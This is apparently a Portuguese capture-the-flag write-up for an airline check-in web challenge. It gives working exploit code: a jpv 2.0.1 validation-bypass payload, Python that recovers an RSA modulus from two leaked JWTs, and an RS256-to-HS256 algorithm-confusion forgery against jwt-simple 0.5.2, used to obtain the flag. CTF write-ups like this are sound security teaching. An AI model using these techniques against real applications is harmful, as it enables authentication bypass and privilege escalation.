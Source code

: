 ## Overview

Temos uma aplicação web de check-in em uma companhia aérea. Existem dois endpoints: /checkin e /upgrades.

A função que recupera a flag é bem óbvia e é mostrada no código a seguir, que é uma requisição do tipo POST para /upgrades/flag:

```js
router.post('/flag', [getLoyaltyStatus], function(req, res, next) {
  if (res.locals.token && res.locals.token.status == "gold") {
    var response = {msg: config.flag };
  } else {
    var response = {msg: "You do not qualify for this upgrade at this time. Please fly with us more."};
  }
  res.json(response);
});
```

Com isso, percebe-se que uma manipulação no token de acesso já nos daria acesso a ela.

Observando as dependências da aplicação, vemos uma versão vulnerável da biblioteca de verificação JPV (JSON Pattern Validator) e também uma versão de jwt-simple desatualizada. Explorando as vulnerbilidades é possível forjar um JWT, alterando o status do passageiro para "gold" e permitindo o acesso à flag.

OBS: ao reproduzir o desafio localmente, é necessário criar chaves RSA pública e privada para colocar no arquivo config.js (já que no original elas vinham censuradas devido ao objetivo do desafio). Utilize as funções abaixo para recriá-las e copie seus valores para o arquivo de configuração:

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -pubout -out public.pem
```

## Vulnerabilidade JPV 2.0.1

A biblioteca jpv tem como intuito validar inputs de usuário comparando com patterns definidos a priore.

Os seguintes padrões são definidos:

```js
const pattern = {
  firstName: /^\w{1,30}$/,
  lastName: /^\w{1,30}$/,
  passport: /^[0-9]{9}$/,
  ffp: /^(|CA[0-9]{8})$/,
  extras: [
    {sssr: /^(BULK|UMNR|VGML)$/},
  ],
};
```

Porém, na linha 42 de checkin.js existe a verificação ```data["extras"][e]["sssr"] == "FQTU"```
que caso seja verdadeira vaza um token JWT.

Para satisfazer essa verificação e bypassar a validação do jpv, exploramos a vulnerabilidade definida em: https://github.com/manvel-khnkoyan/jpv/issues/6.

A validação do campo extras é feita com um pattern que espera um array de objetos com sssr cujo valor seja uma das strings BULK, UMNR ou VGML. Na prática, em jpv@2.0.1 a verificação de "é array?" foi implementada de forma insegura: a biblioteca checa algo como ```obj.constructor.name === 'Array'``` (ou similar), o que é contornável porque, em JavaScript, o campo constructor de um objeto é mutável (ou é possível fornecer um objeto com ```constructor.name = "Array"```).

Utilzamos um payload como o seguinte:

```js
    "firstName": "Algum",
    "lastName": "Nome",
    "passport": "123456789",
    "ffp": "CA12345678",
    "extras": {
        "x": {
            "sssr": "FQTU"
        },
        "constructor": {
            "name": "Array"
        }
    }
```

Com isso conseguimos vazar tokens diferentes apenas alterando o valor do campo "passport" ou "ffp".

## Vulnerabilidade jwt-simple (algorithm confusion / key misuse)

O JWT tem um campo "alg" no header que indica o algoritmo usado na assinatura (RS256, HS256, etc). RS256 usa RSA (chave privada para assinar, pública para verificar). Já o HS256 usa HMAC-SHA256 (um segredo simétrico compartilhado). No caso desse desafio, está sendo utilizada o algoritmo RS256 como é possível verificar no arquivo ckeckin.js:

```js
function createToken(passport, frequentFlyerNumber) {
  var status = isSpecialCustomer(passport, frequentFlyerNumber) ? "gold" : "bronze";
  var body = {"status": status, "ffp": frequentFlyerNumber};
  return jwt.encode(body, config.privkey, 'RS256');
}
```

Porém, em upgrade.js o token é decodificado assim:

```js
function getLoyaltyStatus(req, res, next) {
  if (req.headers.authorization) {
    let token = req.headers.authorization.split(" ")[1];
    try {
      var decoded = jwt.decode(token, config.pubkey);
    } catch {
      return res.json({ msg: 'Token is not valid.' });
    }
    res.locals.token = decoded;
  }
  next()
}
```

Ou seja, ```jwt.decode(token, key)``` está sendo chamado sem restringir o algoritmo e a chave utilizada é config.pubkey (a chave pública). Em jwt-simple@0.5.2, se o token declara "alg: HS256", a biblioteca tratará config.pubkey como o segredo para HMAC e aplicará HMAC-HS256 para verificar o token, o que é aceitável para jwt-simple, já que ela não valida se a chave é adequada ao algoritmo declarado.

Assim, se soubermos a chave pública (ou a reconstruirmos), podemos criar um JWT com "alg: HS256" e assinar com HMAC-SHA256(secret = PEM_pubkey). O servidor usará o mesmo config.pubkey na verificação e aceitará o token, pois o algoritmo no header foi HS256. Assim transformamos um token de verificação assimétrica (RS256) num token simétrico (HS256) que podemos fabricar localmente.

Continuando, com dois tokens vazados temos recursos para calcular a chave pública a partir da assinatura dos tokens. O algoritmo RS256, após realizar algumas operações de hashing sobre os headers e payload do token em base64 e fazer o padding utilizando o algoritmo PKCS#1 v1.5 (iremos chamar o valor resultante de "pt"), realiza a clássica operação RSA com a assinatura:

```
sig = pt^d mod n  // d = expoente privado
```

A verificação é feita com ```sig^e mod n == pt (mod n)```.

Para encontrar o valor do módulo n e recuperar a chave pública original, usamos uma função auxiliar get_magic() com valores de "e" arbitrários (nesse caso testamos apenas os valores mais comuns e encontramos que foi utilizado o clássico valor 65537):

```python
def get_magic(jwt_token: str, e: int) -> gmpy2.mpz:
    """
    Calcula o valor sig**e - pt para um JWT assinado com RS256.
    """
    header, payload, signature = jwt_token.split(".")
    raw_signature = urlsafe_b64decode(f"{signature}==")
    raw_signature_int = gmpy2.mpz(bytes_to_long(raw_signature))

    padded_msg = pkcs1_v1_5_encode(f"{header}.{payload}".encode(), len(raw_signature))
    padded_int = gmpy2.mpz(bytes_to_long(padded_msg))

    return gmpy2.mpz(pow(raw_signature_int, e) - padded_int)
```

Temos assim um possível k*n (sendo k um número inteiro qualquer). Com os dois tokens diferentes conseguimos tirar o gcd e descobrir o valor do módulo n, tornando possível a recuperação da chave pública:

```python
pubkey = RSA.construct((int(N), int(e)))
pem_rsa = pubkey.export_key()
print("\nChave pública PEM:")
print(pem_rsa)
```

Agora com a chave pública podemos montar o nosso token final. Para conseguir utilizar a chave pública sem saber a chave privada, mudamos o algoritmo de criptografia de RS256 para HS256 no header do JWT.

```{"alg": "HS256", "typ": "JWT"} ```

Testamos também mudar o "alg" para "none" como descrito em https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries, porém sem sucesso.

Assim, utilizamos a chave RSA do formato PEM como string literal para assinar o token forjado com o algoritmo HS256 e alteramos o payload para o status "gold":

```python
message = f"{header_b64}.{payload_b64}"
signature = hmac.new(pem_rsa, message.encode(), hashlib.sha256).digest()
signature_b64 = b64url_encode(signature)
jwt_hs_token = f"{message}.{signature_b64}"
```

Com isso conseguimos forjar um token JWT que passa por todas as verificações e retorna a flag ao enviá-lo para o endpoint /upgrades/flag com uma requisição POST.

```python
headers = {"Authorization": f"Bearer {jwt_hs_token}"}
res = requests.post(f"{URL_BASE}/upgrades/flag", headers=headers).json()
print("\nResposta do servidor:")
print(res)
# FLAG{flag_teste}
```
